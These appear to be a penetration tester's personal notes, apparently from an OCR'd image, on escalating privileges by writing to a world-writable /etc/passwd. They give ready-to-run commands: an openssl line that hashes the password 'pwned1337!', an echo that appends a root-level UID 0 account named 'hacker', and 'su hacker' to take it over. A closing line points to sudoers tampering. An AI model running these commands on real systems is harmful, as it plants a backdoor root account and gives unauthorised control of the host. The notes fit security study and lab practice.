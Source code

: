 we may need SALTS if we are able to modify /etc/passwd
	`openssl passwd -1 -salt <user> <password>


example
	Hash password for new user
		`openssl passwd -1 -salt hacker pwned1337!
			`$1$hacker$1wrOUaThCQb73mxBAbaba0
	Modify /etc/passwd
		add new user as a root user
		`echo "hacker:$1$hacker$1wrOUaThCQb73mxBAbaba0:0:0:root:/root:/bin/bash" >> /etc/passwd
	Verify it saved correctly
		cat /etc/passwd
	Switch to user
		`su hacker`


IF this fails , see if you are able to modify /etc/sudoers...
	see my notes page on that...